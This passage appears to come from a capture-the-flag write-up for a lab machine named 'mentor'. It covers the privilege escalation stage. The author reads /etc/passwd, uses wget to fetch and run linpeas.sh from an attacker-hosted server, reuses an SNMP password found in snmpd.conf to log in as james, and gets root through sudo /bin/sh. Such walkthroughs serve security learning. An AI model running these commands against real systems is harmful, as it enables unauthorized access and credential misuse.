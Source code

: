 ![Data Exfiltration](/images/mentor/mentor03.png "Data Exfiltration")

#### Escalation
```bash				       
# get users with shell
cat /etc/passwd | grep -i "sh$"	  
#--snip--#
root:x:0:0:root:/root:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
james:x:1000:1000:,,,:/home/james:/bin/bash

sudo -l					# users sudo right - none
ss -tpln				# open tcp ports  - no further interesting port

# start a local server on attacker's machine and upload linpea
wget http://10.10.14.85:8100/linpeas.sh
chmod 774 ./linpeas.sh
./linpeas.sh | tee -a linout  
<<SNIP
╔══════════╣ Analyzing SNMP Files (limit 70)
-rw-r--r-- 1 root root 3453 Jun  5  2022 /etc/snmp/snmpd.conf

╔══════════╣ Unexpected in /opt (usually empty)
total 12
drwxr-xr-x  3 root root 4096 Jun  3  2022 .
drwxr-xr-x 19 root root 4096 Nov 10 16:00 ..
drwx--x--x  4 root root 4096 Jun  3  2022 containerd
SNIP

# investigated /etc/snmp/snmpd.conf
<<SNIP
createUser bootstrap MD5 SuperSecurePassword123__ DES
rouser bootstrap priv
SNIP

# tried this on root and james for ssh login. james worked!
su james            # on prompt submit password: SuperSecurePassword123__
cd ~
ls -lah     
sudo -l		       # users sudo right - runs  /bin/sh
<<SNIP
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
SNIP
sudo /bin/sh -p    # effective user root
id   # uid=0(root) gid=0(root) groups=0(root)
cd ~
ls -lah
cat root.txt        # captured the root flag
```
